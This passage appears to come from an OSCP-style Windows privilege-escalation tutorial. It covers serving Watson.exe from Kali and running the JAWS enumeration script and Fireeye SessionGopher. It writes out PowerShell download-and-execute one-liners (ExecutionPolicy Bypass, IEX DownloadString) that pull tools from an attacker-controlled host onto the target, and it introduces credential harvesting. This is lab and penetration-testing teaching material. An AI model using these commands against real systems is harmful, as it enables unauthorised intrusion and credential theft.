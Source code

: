 Next we will copy our Watson.exe to our Kali instance and setup a simple python HTTP webserver in Kali to host the file which the remote Windows box can download it from:  
```bash
root@kali:~/tools# cd Watson/
root@kali:~/tools/Watson# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Now we will need to transfer the compiled Watson.exe file to our remote windows box:
```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/Watson.exe\", \"C:\\Users\\Public\\Downloads\\Watson.exe\");
```
And now we run the executeable on the remote machine. I like run with all the audit enabled like so:
```
C:\Users\Admin>cd ..
C:\Users>cd Public
C:\Users\Public>cd Downloads
C:\Users\Public\Downloads>Watson.exe
```

### Running JAWS - Just Another Windows (Enum) Script
JAWS is another powershell library that was built with privledge escalation of the OSCP lab machines in mind. 
We can stage and run JAWS on a remote http server so the file never needs to hit the remote server's HDD.  
```bash
root@kali:~test# git clone https://github.com/411Hall/JAWS
```
Now we can run this from the remote Windows CMD shell:  
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/jaws-enum.ps1'))"
```
Or from a Windows Powershell:
```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/jaws-enum.ps1')
```
And we should see the following output start to appear:
```
Running J.A.W.S. Enumeration
        - Gathering User Information
        - Gathering Processes, Services and Scheduled Tasks
        - Gathering Installed Software
```

### Fireeye Session Gopher
Leveraging credentials is still the most common ways of privledge escalation in Windows environments. Session Gopher is a PowerShell script designed to automaticlly harvest credentials from commonly used applications.

To run Session Gopher, we will first need to pull down the latest version from the Fireeye github repository:
```
git clone https://github.com/fireeye/SessionGopher
Cloning into 'SessionGopher'...
remote: Enumerating objects: 48, done.
Unpacking objects: 100% (48/48), done.
remote: Total 48 (delta 0), reused 0 (delta 0), pack-reused 48
```
Next we can serve it up on our local KALI instance by using the simple python HTTP server:
```
root@kali:~/tools# cd SessionGopher/
root@kali:~/tools/SessionGopher# ls
README.md  SessionGopher.ps1
```